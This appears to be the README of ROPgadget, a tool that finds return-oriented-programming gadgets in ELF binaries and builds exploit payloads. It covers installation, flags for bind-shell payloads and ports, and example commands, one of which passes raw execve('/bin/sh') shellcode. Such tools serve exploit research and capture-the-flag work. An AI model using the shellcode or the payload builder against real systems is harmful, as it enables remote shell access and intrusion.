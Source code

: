 ROPgadget
=========

<pre>
This tool lets you search your gadgets on your binaries (ELF format) to facilitate your ROP exploitation.
Since version 3.0, ROPgadget has a auto-roper for build your payload automatically with the gadgets found.

* [Web Site](http://shell-storm.org/project/ROPgadget/)



Installation
-----------

    git clone git@github.com:JonathanSalwan/ROPgadget.git
    cd ./ROPgadget
    make
    su
    make install


Usage
-----

<b>Syntax</b>

./ROPgadget &lt;option&gt; &lt;binary&gt; [FLAGS]

<b>Options</b>

`-d`        Dump Hexadecimal
`-g`        Search gadgets add make payload
`-v`        Version

<b>Flags</b>

`-bind`                     Set this flag for make a bind shellcode (optional) (Default local exploit)
`-port`      &lt;port&gt;         Set a listen port, optional (Default 1337)
`-importsc`  &lt;shellcode&gt;    Make payload and convert your shellcode in ROP payload
`-filter`    &lt;word&gt;         Word filter (research slowed)
`-only`      &lt;keyword&gt;      Keyword research (research slowed)
`-opcode`    &lt;opcode&gt;       Search a specific opcode on exec segment
`-asm`       &lt;instructions&gt; Search a specific instructions on exec segment
`-elfheader`                Display ELF Header before searching gadgets
`-progheader`               Display Program Header before searching gadgets
`-sectheader`               Display Section Header before searching gadgets

<b>Ex</b>

    ./ROPgadget -g ./smashme.bin -bind -port 8080
    ./ROPgadget -g ./smashme.bin -importsc "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
    ./ROPgadget -g ./smashme.bin -filter "add %eax" -filter "dec" -bind -port 8080
    ./ROPgadget -g ./smashme.bin -only "pop" -filter "eax"
    ./ROPgadget -g ./smashme.bin -opcode "\xcd\x80"
    ./ROPgadget -g ./smashme.bin -asm "xor %eax,%eax ; ret"
    ./ROPgadget -g ./smashme.bin -asm "int \$0x80"
</pre>



